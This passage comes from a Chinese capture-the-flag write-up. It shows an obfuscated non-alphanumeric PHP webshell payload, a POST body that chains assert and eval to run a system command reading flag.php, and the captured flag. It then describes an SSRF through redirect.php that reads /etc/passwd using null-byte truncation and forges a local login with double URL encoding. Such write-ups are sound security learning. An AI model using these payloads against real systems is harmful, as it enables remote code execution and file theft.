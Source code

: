 `$_=''.[];$__='%2b';$__=$_%2b%2b;$_=$_[$__];$_%2b%2b;$_%2b%2b;$_%2b%2b;$_%2b%2b;$_%2b%2b;$_%2b%2b;$_%2b%2b;$_%2b%2b;$_%2b%2b;$_%2b%2b;$_%2b%2b;$_%2b%2b;$_%2b%2b;$_%2b%2b;$___=$_;$_%2b%2b;$__=$_;$_%2b%2b;$_%2b%2b;$_%2b%2b;$____=$_;$_%2b%2b;${'_'.$__.$___.$____.$_}['_'](${'_'.$__.$___.$____.$_}['__']);`

访问得到flag

POST内容如下

`_=assert&__=eval($_POST['pass'])&pass=system('tac ../flag.php');`

`<?php $flag="=hxb2017{51f759f39ac1f0cd5509b299b1d908f7}"; ?>`

非常好的参考资料  
https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html  
http://www.freebuf.com/articles/web/9396.html  
学习了一波2333  

### Web400

最开始拿到题目：http://118.190.113.111:10080/index.php?act=user的时候挺没有头绪的

一开始以为是ssrf摸内网，又发现好像有上传，各种尝试302打进去探测端口，发现都挺奇怪的，一直没get到考点

后来发现有一个redirect.php，会重定向

于是在photo url处尝试了一下

http://118.190.113.111:10080/redirect.php?redirect=file:///etc/passwd

但是这里会被waf拦下，只允许通过.jpg和.png的结尾，于是尝试00截断

如下:

![](http://5b0988e595225.cdn.sohucs.com/images/20171229/05ea04f6f4244fe2a87d6895717c4db2.png)

发现可以成功读取到内容

于是拿下源码进行分析（以下为本地测试，vps就打码了，毕竟是队友的）

在login.php里

![](http://5b0988e595225.cdn.sohucs.com/images/20171229/c7858b3cd56345bea0c0937f34e1981f.jpeg)

如果是本地访问的话,token才会为1

在common.php中

![](http://5b0988e595225.cdn.sohucs.com/images/20171229/29bdfae1cfc145ddbcb5ef61f0de8a2f.jpeg)

可以发现debug的值为1会返回http头数据

于是猜想利用redirect.php请问，伪造本地登录

http://118.190.113.111:10080/redirect.php?redirect=login.php?username=1&password=1.jpg

这样是不是就可以达到本地登录的目的了呢？

（注：这里有个小坑，需要2次url编码，所以payload如下）

![](http://5b0988e595225.cdn.sohucs.com/images/20171229/cf9edcf231974f29906a3430ceee6e79.jpeg)

